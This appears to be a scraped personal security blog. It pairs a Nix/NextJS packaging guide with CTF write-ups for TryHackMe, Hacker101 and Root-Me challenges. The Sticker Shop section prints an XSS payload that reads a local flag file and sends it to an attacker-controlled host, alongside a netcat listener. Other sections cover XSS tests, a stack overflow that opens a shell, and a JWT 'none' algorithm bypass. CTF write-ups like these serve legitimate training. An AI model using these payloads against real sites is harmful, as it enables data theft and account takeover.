





About
)
@pwnspirit

Hii, I'm pwnspirit. I am a 18 years old guy from Nepal, who loves computers and softwares.
I'm a Security Researcher(not by profession), I play ctfs and do Bug Bounty. I believe in secure software and FOSS. Here you can find most of my writeups related to CTFs' and my findings.
My online links

Packaging Next-JS Webapps on Nix
Recently, I just started to learn NextJS to broaden my security knowledge, since my primer OS is Nix, there is a need of configuring NextJS environment. This Post will explain how I package a NextJS Webapp in my Nix-OS.
Packaging
Statically Exported Webapps
Statically exported ones are easy to package, because it is a matter of running npm build (or whatever your build script is) with the following NextJS settings
// next.config.js
module.exports = {
distDir: "dist", // an artitrary path for your export
output: "export",
};
This will export a static website with a bunch of html files that you can then serve with nodePackages.serve or a webserver like nginx or apache. And that is the end of your worries for a statically exported website! No headache, just write a simple derivation, such as the one below
# default.nix
{
buildNpmPackage,
pkg-config,
python3,
...
}:
buildNpmPackage {
pname = "your-website";
version = "0.1";
src = ./.;
# needs to be updated everytime you update npm dependencies
npmDepsHash = "sha256-some-hash";
# some npm packages may need to be built from source, because nodejs is a *terrible* ecosystem
nativeBuildInputs = [pkg-config python3];
# move exported website to $out
postInstall = ''
cp -rf dist/* $out
'';
}
Webapps that cannot be statically exported
If your website depends on API routes for some reasons, then Next will not allow you to do static export. Which means you need to run next start in some shape or form. While a systemd service is certainly a way of doing it (one that I do not recommend), a oci container works as well if not better.
You can write a "simple" docker image for your oci container to use, such as the one below
# dockerImage.nix
{
pkgs,
inputs,
...
}: {
dockerImage = pkgs.dockerTools.buildImage {
config = {
WorkingDir = "/your-website";
Cmd = ["npm" "run" "serve"];
};
name = "your-website";
tag = "latest";
fromImage = pkgs.dockerTools.buildImage {
name = "node";
tag = "18-alpine";
};
copyToRoot = pkgs.buildEnv {
name = "image-root";
paths = with pkgs; [
# this package is called from a flake.nix alongside the derivation for the website
inputs.self.packages.${pkgs.stdenv.system}.your-website
nodejs
bash
];
pathsToLink = [
"/bin"
"/your-website"
];
};
};
}
Then, configure oci-containers module option to pick up the Docker image that you have built.
virtualisation.oci-containers = {
backend = "podman";
containers = {
"website-container" = {
autoStart = true;
ports = [
"3000:3000" # bind container's port 3000 to the outside port 3000 for NextJS
];
extraOptions = ["--network=host"];
image = "your-website";
imageFile = inputs.website-flake.packages.${pkgs.stdenv.system}.dockerImage;
};
};
};
After a rebuild, your system will provision the container and start it on port 3000. You can access it with your-server-ip:3000 in your browser, and even configure nginx to set up a reverse proxy to assign your domain.
"example.com" = {
locations."/".proxyPass = "http://127.0.0.1:3000";
};
This will assign your domain to your webserver, and allow outside visitors to view your "awesome" NextJS webapp.
The Sticker Shop
Can you exploit the sticker shop in order to capture the flag?
Starting task, as we are going to face with a server run by a Local Sticker Shop hosted. I started the machine and jump over it.
The first step I took is to visit the website and looked for the source and found /submit_feedback dir, which catched me.
And I visited to /submit_feedback and found a submition functionality available.
As soon I saw this, I just started to try random XSS payloads, from payloadbox/xss-payload-list, and cam to this payload..
<img src=x onerror="fetch('<ip>:8080')"/>
[!NOTE] In the above payload an image would be loaded as img tag refers to X location, since the src fail to load and it simply goes to execute following and we just can grap the http request using
ncfetch('http://<ip>:8080');
And I just nc the headers before the submition of the payload, and yeah like this !!!
nc -knvlp 8080
| Now to grab the flag I have used the following payload.. |
<img src="x" onerror="fetch('http://127.0.0.1:8080/flag.txt').then(r => r.text()).then(r => fetch('http://<ip>:8080/?c=' + r)).catch(e => fetch('http://<ip>:8080/?c=' + e))"/>
[!NOTE] Componenets..
<img src="x" onerror="...">- The imagesrcis invalid, causing theonerrorattribute to execute when the browser fails to load the image.fetch('http://127.0.0.1:8080/flag.txt')- This initiates an HTTP GET request to the victim's localhost at port 8080, targeting theflag.txtfile..then(r => r.text())- If the request succeeds, this processes the response (r) and converts it into text using the.text()method..then(r => fetch('http://<ip>:8080/?c=' + r))- After retrieving the file content, anotherfetchrequest sends the content (r) to the attacker's server (http://<ip>:8080) as part of the query string (?c=...)..catch(e => fetch('http://<ip>:8080/?c=' + e))- If the initialfetchfails (e.g., the file doesn't exist or CORS blocks the request), thecatchblock handles the error and sends the error message (e) to the attacker's server.
Yes! Thank you for reading till here ;)
A little something to get you started
Here is the initial look when I spawn the challenge.

After looking into the source, I can see there is a background.png file ,

Let's try to access it.
Here we got the flag. ease : )

Micro-CMS v1
So In this challenge, we need to find the 4 flags and submit it to h1ctf. Let's try to solve the chall. Here is the first look when I spawn the chall.

We can edit the already posted readme and create another one. Let's try to create a new one. Here, I created one with pwntest and the interesting thing is the url for the post which is page/9
https://10f9bae117c1def0cfa05ff020a257ff.ctf.hacker101.com/page/9
After that I tried to visit all the pages from 0 to 9. But we got a forbidden page for post 4. Interesting(noted).

There is written, script is not allowed, which I think we can trigger XSS by editing the markdown file.

I searched for some payloads over github. I'm looking for something like marddown taks which can pop up XSS and found this payload. let's execute this.
<img src =q onerror=prompt(8)>
yup, we got the first flag.

Let's look for another, As mentioned earlier, we were facing forbidden at page 4, let's try to edit the page instead of accessing it. yup, we got another flag.

Yup, I was trying to play with charectors like ", "+, ' and got the flag.

Now, for the last flag , I used
<script>alert(7*7)</script>
in the title section, and it gave me the final flag.

APP System
ELF x86 - Stack buffer overflow basic 1
Here is the C code which is given in the chall.
C code
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
int main()
{
int var;
int check = 0x04030201;
char buf[40];
fgets(buf,45,stdin);
printf("\n[buf]: %s\n", buf);
printf("[check] %p\n", check);
if ((check != 0x04030201) && (check != 0xdeadbeef))
printf ("\nYou are on the right way!\n");
if (check == 0xdeadbeef)
{
printf("Yeah dude! You win!\nOpening your shell...\n");
setreuid(geteuid(), geteuid());
system("/bin/bash");
printf("Shell closed! Bye.\n");
}
return 0;
}
Let's access the server via ssh. and try to solve the chall.
ssh -p 2222 app-systeme-ch13@challenge02.root-me.org
Here, we have some files which got my attention.
We have a .passwd file, and it seems like there we can get the flag for the chall. Unfortunately. we cann't access the file, as we don't have access for it.
Now, let's dive into the vulnerable code and spawn the shell,
We have char buf[40]; buffer set but the program allows fgets(buf, 45, stdin); 45 long buffer. So, my metholodogy will be
- The
checkvariable is stored right after the buffer in memory. - By overflowing the buffer, we can overwrite
check. - We need to change
checkto0xdeadbeef.
WEB CLIENT
HTML - disabled buttons
HTML protection ? huh make sense.
As we can see there is nothing rather than spawn machine and a statement This form is disabled and can not be used. It’s up to you to find a way to use it.. I just spawn the chall, and got interface like below:
And checked from the browser dev tool. As you can in the attached screnshot, there is input with value disabled. What if I change it to enabled ?? Let's see:
Now , I can submit member access, I put anything there and I got the password.
JS Authentication
This time also source code but little different, We got the following code.
function connexion(){
var username = prompt("Username :", "");
var password = prompt("Password :", "");
var TheLists = ["reallyhidden"];
for (i = 0; i < TheLists.length; i++)
{
if (TheLists[i].indexOf(username) == 0)
{
var TheSplit = TheLists[i].split(":");
var TheUsername = TheSplit[0];
var ThePassword = TheSplit[1];
if (username == TheUsername && password == ThePassword)
{
alert("Vous pouvez utiliser ce mot de passe pour valider ce challenge (en majuscules) / You can use this password to validate this challenge (uppercase)");
}
}
else
{
alert("Nope, you're a naughty hacker.")
}
}
}
Here you can see Hardcoded credentials list: which is ["reallyhidden"];, I submitted it as username and password.
Javascript - Authentication
The challenge seems like authentication bypass or something like this. I have stated the chall and it bring me to login page.
I tried login using default password and username like admin & admin OR admin & pass but didn't work.
After that I continue to look over source code. There I can find a JS script called login.js, in which we got our creds.
I submitted the password as password, and yahu it got solved.
lesson learned,
Always read source code, alware inspect even if its a 404 page : )
Javascript - Native code
After opening the challenge, we got a password input poping up, but we don't know the password. The goal is to find the password.
Let's instpect the source and try to find the password. Here we got something like gibbrish code (JSfuck)
If we decode the code we might able to find the flag, the One way to decode the JS fuck code is console, lets try it.
<script>
É = -~-~[],
ó = -~É,
Ë = É << É,
þ = Ë + ~[];
Ì = (ó - ó)[Û = ('' + {})[É + ó] + ('' + {})[ó - É] + ([].ó + '')[ó - É] + (!!'' + '')[ó] + ({} + '')[ó + ó] + (!'' + '')[ó - É] + (!'' + '')[É] + ('' + {})[É + ó] + ({} + '')[ó + ó] + ('' + {})[ó - É] + (!'' + '')[ó - É]][Û];
Ì(Ì((!'' + '')[ó - É] + (!'' + '')[ó] + (!'' + '')[ó - ó] + (!'' + '')[É] + ((!'' + ''))[ó - É] + ([].$ + '')[ó - É] + '\'' + '' + '\\' + (ó - É) + (É + É) + (ó - É) + '\\' + (þ) + (É + ó) + '\\' + (ó - É) + (ó + ó) + (ó - ó) + '\\' + (ó - É) + (ó + ó) + (É) + '\\' + (ó - É) + (É + ó) + (þ) + '\\' + (ó - É) + (É + ó) + (É + ó) + '\\' + (ó - É) + (ó + ó) + (ó - ó) + '\\' + (ó - É) + (ó + ó) + (É + É) + '\\' + (É + ó) + (ó - ó) + '\\' + (É + É) + (þ) + '\\' + (ó - É) + (ó - ó) + (É + ó) + '\\' + (ó - É) + (É + ó) + (ó + ó) + '\\' + (ó - É) + (ó + ó) + (É + É) + '\\' + (ó - É) + (ó + ó) + (É) + '\\' + (ó - É) + (É + É) + (É + ó) + '\\' + (ó - É) + (þ) + (É) + '\\' + (É + É) + (ó - ó) + '\\' + (ó - É) + (É + ó) + (É + É) + '\\' + (ó - É) + (É + É) + (É + ó) + '\\' + (É + É) + (ó - ó) + '\\' + (ó - É) + (É + ó) + (É + ó) + '\\' + (ó - É) + (É + ó) + (þ) + '\\' + (ó - É) + (ó + ó) + (É + É) + '\\' + (É + É) + (ó - ó) + '\\' + (ó - É) + (É + É) + (É + É) + '\\' + (ó - É) + (É + É) + (É + ó) + '\\' + (É + É) + (ó - ó) + '\\' + (ó - É) + (ó + ó) + (ó - ó) + '\\' + (ó - É) + (É + É) + (ó - É) + '\\' + (ó - É) + (ó + ó) + (ó) + '\\' + (ó - É) + (ó + ó) + (ó) + '\\' + (ó - É) + (É + É) + (É + ó) + '\\' + (É + É) + (þ) + '\\' + (É + ó) + (ó - É) + '\\' + (þ) + (ó) + '\\' + (ó - É) + (É + ó) + (ó - É) + '\\' + (ó - É) + (É + É) + (ó + ó) + '\\' + (É + ó) + (ó - ó) + '\\' + (ó - É) + (É + É) + (ó - É) + '\\' + (þ) + (É + ó) + '\\' + (þ) + (É + ó) + '\\' + (É + É) + (þ) + '\\' + (ó - É) + (ó + ó) + (É + É) + '\\' + (ó - É) + (É + ó) + (þ) + '\\' + (ó - É) + (ó + ó) + (É + É) + '\\' + (ó - É) + (É + ó) + (þ) + '\\' + (ó + ó) + (ó - É) + '\\' + (ó + ó) + (É) + '\\' + (ó + ó) + (ó) + '\\' + (ó - É) + (É + ó) + (É + É) + '\\' + (ó - É) + (É + ó) + (þ) + '\\' + (ó - É) + (É + ó) + (É + É) + '\\' + (É + É) + (þ) + '\\' + (É + ó) + (ó - É) + '\\' + (ó - É) + (þ) + (ó) + '\\' + (ó - É) + (É + É) + (ó - É) + '\\' + (ó - É) + (É + ó) + (É + É) + '\\' + (ó - É) + (É + É) + (É + ó) + '\\' + (ó - É) + (ó + ó) + (É) + '\\' + (ó - É) + (ó + ó) + (É + É) + '\\' + (É + ó) + (ó - ó) + '\\' + (É + É) + (þ) + '\\' + (ó - É) + (É + É) + (É) + '\\' + (ó - É) + (ó + ó) + (É) + '\\' + (ó - É) + (É + É) + (ó - É) + '\\' + (ó - É) + (ó + ó) + (ó + ó) + '\\' + (ó - É) + (É + ó) + (þ) + '\\' + (É + É) + (þ) + '\\' + (É + ó) + (ó - É) + '\\' + (þ) + (ó) + '\\' + (ó - É) + (þ) + (É + ó) + '\\' + (ó - É) + (É + É) + (É + ó) + '\\' + (ó - É) + (É + ó) + (É + É) + '\\' + (ó - É) + (ó + ó) + (ó) + '\\' + (ó - É) + (É + É) + (É + ó) + '\\' + (ó - É) + (þ) + (ó) + '\\' + (ó - É) + (É + É) + (ó - É) + '\\' + (ó - É) + (É + ó) + (É + É) + '\\' + (ó - É) + (É + É) + (É + ó) + '\\' + (ó - É) + (ó + ó) + (É) + '\\' + (ó - É) + (ó + ó) + (É + É) + '\\' + (É + ó) + (ó - ó) + '\\' + (É + É) + (þ) + '\\' + (ó - É) + (É + É) + (ó + ó) + '\\' + (ó - É) + (É + É) + (ó - É) + '\\' + (ó - É) + (É + ó) + (ó - É) + '\\' + (ó - É) + (É + ó) + (É + É) + '\\' + (É + ó) + (ó + ó) + '\\' + (É + ó) + (ó + ó) + '\\' + (É + ó) + (ó + ó) + '\\' + (É + É) + (þ) + '\\' + (É + ó) + (ó - É) + '\\' + (þ) + (ó) + '\\' + (ó - É) + (þ) + (É + ó) + '\'')())()
</script>
What we do now is use toString() to decode the obfuscated code. What it does is, it will reveal the js code without actually executing the code. If you directly paste the obfuscated code, it will again alert the password input. let's replace the last () with .toString().
You can see the code:
function anonymous() {
let a = prompt('Entrez le mot de passe');
if (a === 'REDACTED') {
alert('bravo');
} else {
alert('fail...');
}
}
Obfuscation JS
This time also reading source code but with a little bit change. We can see the password when we inspect the page but its url encoded.
I decoded the given encoded string/password and it gave me plain password.
Javascript - Obfuscation 2
Here after inspecting the page source , I find the following obfuscation js code. which seems like password we need but encrypted.
Here we got something like
var pass = unescape("unescape%28%22String.fromCharCode%2528104%252C68%252C117%252C102%252C106%252C100%252C107%252C105%252C49%252C53%252C54%2529%22%29");
OR
unescape%28%22String.fromCharCode%2528104%252C68%252C117%252C102%252C106%252C100%252C107%252C105%252C49%252C53%252C54%2529%22%29
Let's fire up CyberChef and try to decode.
RECEIPE -> URL decode
unescape("String.fromCharCode%28104%2C68%2C117%2C102%2C106%2C100%2C107%2C105%2C49%2C53%2C54%29")
twice
unescape("String.fromCharCode(104,68,117,102,106,100,107,105,49,53,54)")
Now we are near to the password, Let's check the password using the console.
Javascript - Source.
As previous, just use inspect and try to read source. Wallah, we got the password
Javascript - Obfuscation 3
We got another JS obfuscation chall, Here I got \x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30 this in source code.
And The pattern seems to be of hex like
\x35 = 0x35 = 53 in decimal = 5
Here we can use concole:
console.log("Layer 1 result:", layer1);
after converting all the hex, we got something like 55,56,54,79,115,69,114,116,107,49,50
now, lets use ansci decoding.
const charCodes = "55,56,54,79,115,69,114,116,107,49,50";
const decoded = charCodes.split(',').map(code => String.fromCharCode(code)).join('');
console.log("Final result:", decoded);
Now, we got the password: 786OsErtk12
Javascript - Webpack
AS the name suggests, I just started to look over the source codes like js and css and Under the file app.a92c5074dafac0cb6365.js I got a commented .map file. I just downloaded it and searched for flag string and got the password.
I took literally more than a hour to solve it, I went to the file first but I didn't searched for string flag but instead password and so much more. The recon is too much deeper than the solution.
WEB SERVER
JWT - Introduction
Here we go again. we have got a login page and there is also a feature for guest login. As the challenge name suggestes, we need to access the admin panel to get the flag i.e. password,
So, I just logged in as guest to figure out the request and responce.
steps:
- I already set up the
JWT Editorextension in my burp, in order to play with tokens. - I just grab the request for
guestlogin. and its seems like theusernamewe have isguest, I tried to change it toadminbut no luck. - There also you can see the
HS256algorithm used, I tried to change it tonone.
And wallah, we got the admin access.
The password is S1gn4tuR3_v3r1f1c4t10N_1S_1MP0Rt4n7